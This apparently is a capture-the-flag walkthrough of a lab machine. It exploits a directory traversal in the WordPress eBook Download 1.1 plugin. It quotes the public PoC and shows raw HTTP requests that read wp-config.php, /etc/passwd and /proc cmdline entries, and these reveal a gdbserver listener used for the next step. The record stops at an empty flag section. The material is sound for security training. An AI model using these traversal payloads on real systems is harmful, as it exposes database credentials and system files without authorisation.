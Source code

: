 
1. Nmap reveals port 80 and 22

2. Gobuster reveals Wordpress, the first directory is /wp-content which contains plugins, inside plugins folder there is a ebook-download plugin, which searching reveals an exploit available.

````
# searchsploit ebook download
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                                            | php/webapps/39575.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
````

3. Try to execute the exploit
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

4. Enumerates
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````

5. Enumarates process
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$PID$/cmdline HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````
````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:43:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 232
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
````
[man gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html)

`gdbserver --once 0.0.0.0:1337 /bin/true`

* The --once option allows reusing the same port number for connecting to multiple instances of gdbserver running on the same host, since each instance closes its port after the first connection. 
* 0.0.0.0:1337 listen on any interface on port 1337
* /bin/true name of the program to be debugged

````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:32:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 234
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline/bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
````

[man screen](https://linux.die.net/man/1/screen)
`screen -dmS root`
* -dm creates a new session but does not attach to it
* session name root



# Secrets
* FLAG_USER =

